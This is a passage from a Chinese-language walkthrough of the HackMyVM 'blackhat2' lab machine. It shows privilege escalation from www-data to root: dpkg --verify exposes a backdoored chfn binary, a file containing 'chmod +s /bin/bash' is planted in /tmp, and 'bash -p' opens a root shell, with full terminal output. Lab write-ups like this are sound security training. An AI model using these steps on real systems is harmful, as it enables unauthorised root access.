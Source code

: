 <img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405071824591.png" alt="Untitled" style="zoom:33%;" />



### chfn后门提权

然后过了几天，作者发出了解法：https://www.youtube.com/watch?v=07R30pWov64

并且给出了一些提示，但是都毫无思路：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405071824592.png" alt="image-20240507180922189" style="zoom:50%;" />

rpj7最先看到并且进行了尝试：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405071824593.png" alt="image-20240507175645624" style="zoom:50%;" />

尝试按照作者思路看一下：

```bash
(remote) www-data@blackhat2.hmv:/tmp$ dpkg --verify | grep -vi missing
??5?????? c /etc/grub.d/10_linux
??5??????   /usr/bin/chfn
```

- `-v`：这是 `grep` 的一个选项，表示“反向匹配”，即只显示不匹配指定模式的行。
- `-i`：这是另一个 `grep` 选项，表示“忽略大小写”。但在这个上下文中，它可能不是必需的，因为我们通常不会关心输出中的大小写（尽管这取决于 `dpkg --verify` 的具体输出）。

尝试下载过来，然后尝试进行反编译一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405071824594.png" alt="image-20240507181610035" style="zoom:50%;" />

嘶，原来后门在这里，尝试利用：

```bash
(remote) www-data@blackhat2.hmv:/tmp$ ls -la
total 8
drwxrwxrwt  2 root root 4096 May  7 11:53 .
drwxr-xr-x 18 root root 4096 Feb 26 09:58 ..
(remote) www-data@blackhat2.hmv:/tmp$ vi system
(remote) www-data@blackhat2.hmv:/tmp$ ls -la
total 12
drwxrwxrwt  2 root     root     4096 May  7 12:20 .
drwxr-xr-x 18 root     root     4096 Feb 26 09:58 ..
-rw-r--r--  1 www-data www-data   20 May  7 12:20 system
(remote) www-data@blackhat2.hmv:/tmp$ cat *
chmod +s /bin/bash

(remote) www-data@blackhat2.hmv:/tmp$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1265648 Apr 23  2023 /bin/bash
(remote) www-data@blackhat2.hmv:/tmp$ chmod +x system 
(remote) www-data@blackhat2.hmv:/tmp$ /usr/bin/chfn
Changing the user information for root
Enter the new value, or press ENTER for the default
        Full Name [root]: 
        Room Number []: 
        Work Phone []: 
        Home Phone []: 
        Other []: 
(remote) www-data@blackhat2.hmv:/tmp$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 23  2023 /bin/bash
(remote) www-data@blackhat2.hmv:/tmp$ bash -p
(remote) root@blackhat2.hmv:/tmp# ls -la
total 12
drwxrwxrwt  2 root     root     4096 May  7 12:20 .
drwxr-xr-x 18 root     root     4096 Feb 26 09:58 ..
-rwxr-xr-x  1 www-data www-data   20 May  7 12:20 system
(remote) root@blackhat2.hmv:/tmp# cd /root
(remote) root@blackhat2.hmv:/root# ls -la
```